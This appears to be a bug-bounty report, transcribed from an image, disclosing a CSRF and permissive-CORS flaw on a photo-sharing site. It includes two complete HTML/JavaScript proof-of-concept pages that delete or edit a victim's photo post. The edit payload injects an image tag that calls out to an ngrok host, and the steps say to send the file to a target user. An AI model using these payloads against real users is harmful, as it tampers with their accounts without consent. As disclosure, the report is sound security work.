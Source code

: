 Detailed description:

hello

I found a csrf with which I can modify the content of the photo post or delete the post
This report may be a bit long, but sorry
The first thing a token is not passed to prevent csrf attacks The second thing is that this domain trusts any origin Which causes a vulnerability, cors. There is a vulnerability for this. I will send it in another report, but we need it now

The first thing we need to know about the post icon is in the image link as shown in that image


Here we see that the field trusts any asset that is added in the origin head and I will tell you now why we need this

When data of this type is sent, a request is sent to the server to see if the server supports this type of data and it is also sent in the original request and request method the server returns 200
and this means that the server accepts requests The problem here is that the server trusts any domain That means we can use CSRF

csrf poc delete  post photo

<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https:\/\/photos.oneplus.com\/shot\/delete", true);
        xhr.setRequestHeader("Accept", "application\/json, text\/plain, *\/*");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "application\/json;charset=utf-8");
        xhr.withCredentials = true;
        var body = "{\"photoCode\":\"code-photo\"}";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
 

Code-photo is replaced by the code for his photos

csrf edit post photo

<html>
<body>
<script>history.pushState('', '', '/')</script>
<script>
function submitRequest()
{
var xhr = new XMLHttpRequest();
xhr.open("POST", "https:\/\/photos.oneplus.com\/shot\/submit\/photo", true);
xhr.setRequestHeader("Accept", "application\/json, text\/plain, *\/*");
xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
xhr.setRequestHeader("Content-Type", "application\/json;charset=utf-8");
xhr.withCredentials = true;
var body = "{\"author\":\"\x3cimg src=\'http://1b119be66b85.ngrok.io/\'\x3e\",\"countryCode\":\"us\",\"photoTopic\":\"asd\",\"photoCategory\":1,\"photoLocation\":\"asd\",\"photoExif\":{\"photoUrl\":\"https://image01.oneplus.net/daypic/202007/03/code-photo\"},\"remark\":\"asd\",\"isEdit\":true,\"photoCode\":\"code-photo\"}";
var aBody = new Uint8Array(body.length);
for (var i = 0; i < aBody.length; i++)
aBody[i] = body.charCodeAt(i);
xhr.send(new Blob([aBody]));
}
</script>
<form action="#">
<input type="button" value="Submit request" onclick="submitRequest();" />
</form>
</body>
</html>

Reproduction instructions:

1:
Choose the payload and add it in the html file and send it to the target user

2:

When the user submits the payload, modifies the post or removes it

Business impact:

Delete or modify the post

Remediation:

Add a token to the users
